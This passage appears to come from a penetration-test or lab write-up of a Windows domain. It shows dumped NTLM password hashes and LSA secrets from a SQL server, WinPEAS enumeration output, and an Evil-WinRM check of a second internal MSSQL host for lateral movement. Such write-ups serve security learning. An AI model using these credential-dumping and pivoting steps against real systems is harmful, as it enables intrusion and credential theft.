[+] System masterkey decrypted for fedfc661-7403-49ad-9c0f-ec3e8015004e

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ac325190bb999ef4ad73b0b67e8e33c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   7C C0 81 9A 46 FA 0A FD B7 83 FD 40 C1 F3 4E E9    |...F......@..N.
0020   06 E8 3E 11 B9 58 96 49 A8 1F 3D 90 50 ED 3C E7    ..>..X.I..=.P.<.
0030   4E 3C 71 07 EA 98 3A 9F F2 5B C2 28 C6 32 CB AF    N<q...:..[.(.2..
0040   31 BB A0 B4 AD C0 79 9D 79 2C 2E 62 51 AF 42 A8    1.....y.y,.bQ.B.
0050   DF 35 60 A8 81 22 19 4D 10 A9 39 60 89 84 34 6B    .5`..".M..9`..4k
0060   80 E1 0A D0 ED 0D CD 94 7C 75 C0 8D ED 68 C7 09    ........|u...h..
0070   A6 E3 C9 A4 40 3F CB 76 5D 74 14 2B 3E 56 B5 23    ....@?.v]t.+>V.#
0080   E1 D5 1D 30 E7 CA D3 5A F4 43 57 21 99 28 BB 0B    ...0...Z.CW!.(..
0090   16 50 B5 54 33 8A C7 01 36 F7 D4 BD D5 FA 5A D3    .P.T3...6.....Z.
00A0   94 9D B4 94 95 9E 05 DD EB D8 6E 90 25 E4 28 EB    ..........n.%.(.
00B0   DA DD F1 01 4D 71 A2 9D 67 41 F6 BD E0 0D 4F 7E    ....Mq..gA....O~
00C0   33 37 48 4B C3 6D C3 DD D6 18 6F 06 F9 6D CF 3A    37HK.m....o..m.:
00D0   40 64 D3 7D 29 3B 16 09 92 B3 4F 52 F0 7F B6 0C    @d.});....OR....
00E0   B0 61 D9 DD DC 0D 69 08 03 0B 41 84 B6 8C AE 0F    .a....i...A.....
00F0   CD 1F 5A 4A 1F C7 E9 28 86 6F E6 AF 4F A3 8B 83    ..ZJ...(.o..O...
0100   53 4E A9 52 D1 BF 91 7E 10 6D 23 3A E2 DF 32 F0    SN.R...~.m#:..2.

DPAPI_SYSTEM
0000   01 00 00 00 E5 B0 70 B6 FC 2A F9 24 D7 D7 BE 1B    ......p..*.$....
0010   28 71 F1 0D 64 45 3C BA 6D 32 6A 8D 8B 29 A1 E2    (q..dE<.m2j..)..
0020   DB 89 D4 E9 D1 B6 DF 70 35 DB 2A 76                .......p5.*v

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   02 92 96 34 89 68 37 22 22 DD 4F BD BD B3 11 35    ...4.h7"".O....5
0020   BD 5A D2 7A 27 AF 48 23 F2 CA 71 F4 A0 6A B7 C4    .Z.z'.H#..q..j..
0030   2E 84 50 63 DF 17 01 4F EA 92 50 C4 DD 9B 86 D2    ..Pc...O..P.....
0040   48 3E CC 80 5E B5 30 96 7A DD 48 CB CC BF E1 E3    H>..^.0.z.H.....
0050   83 B9 67 6B 0F FC 1E C5 07 03 4A BA 99 6C 50 F3    ..gk......J..lP.

_SC_MSSQLSERVER
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   93 90 66 1E 5A D5 A7 D9 3A 01 3C 8C 75 E4 88 06    ..f.Z...:.<.u...

_SC_SQLTELEMETRY
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   43 09 38 F0 4E 10 18 0C 1A C1 D8 E6 6E CF A9 EC    C.8.N.......n...


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 7.921868085861206
```

And laslty the Winpeas:

```
[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits

Host Name:                 ZPH-SVRSQL01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00000-00001-AA947
Original Install Date:     14/10/2022, 10:21:03
System Boot Time:          16/09/2023, 05:12:57
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,310 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,672 MB
Virtual Memory: In Use:    1,127 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    zsm.local
Logon Server:              N/A
Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB5022511
                           [02]: KB4535680
                           [03]: KB4589208
                           [04]: KB5012170
                           [05]: KB5026362
                           [06]: KB5017400
                           [07]: KB5020374
                           [08]: KB5023789
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.210.15
                                 [02]: fe80::92c2:f44b:9132:3059
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.


[*] NETWORK
 [+] CURRENT SHARES

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share                     
IPC$                                         Remote IPC                        
ADMIN$       C:\Windows                      Remote Admin                      
The command completed successfully.


 [+] INTERFACES

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ZPH-SVRSQL01
   Primary Dns Suffix  . . . . . . . : zsm.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : zsm.local

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter #2
   Physical Address. . . . . . . . . : 00-50-56-B9-5C-C5
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::92c2:f44b:9132:3059%4(Preferred) 
   IPv4 Address. . . . . . . . . . . : 192.168.210.15(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.210.1
   DHCPv6 IAID . . . . . . . . . . . : 134238294
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2B-BC-BC-30-00-50-56-B9-57-CB
   DNS Servers . . . . . . . . . . . : 192.168.210.10
   NetBIOS over Tcpip. . . . . . . . : Enabled


 [+] ARP

Interface: 192.168.210.15 --- 0x4
  Internet Address      Physical Address      Type
  192.168.210.1         00-50-56-b9-44-c7     dynamic   
  192.168.210.10        00-50-56-b9-5e-fe     dynamic   
  192.168.210.11        00-50-56-b9-51-72     dynamic   
  192.168.210.13        00-50-56-b9-1f-e5     dynamic   
  192.168.210.19        00-50-56-b9-f5-2e     dynamic   
  192.168.210.255       ff-ff-ff-ff-ff-ff     static    
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static
```

Now here theonly interesting thing I see is a link to another ip finishing with .19 and from what I know is the other MSSQL server but for the internal.zsm.local.

As we can see this DB can reach the internal one:

```
*Evil-WinRM* PS C:\> TNC -port 1433 -computer 192.168.210.19


ComputerName     : 192.168.210.19
RemoteAddress    : 192.168.210.19
RemotePort       : 1433
InterfaceAlias   : Ethernet0 2
SourceAddress    : 192.168.210.15
TcpTestSucceeded : True
```

* * *

## EXTRA:

Here I missed, when I checked for trusted links that ZPH-SVRSQL01 could reach the ZSM-SVRCSQL02.INTERNAL.ZSM.LOCAL via trusted links somehow impacket-mssql missed that.

I will continue on the specific page on the other server.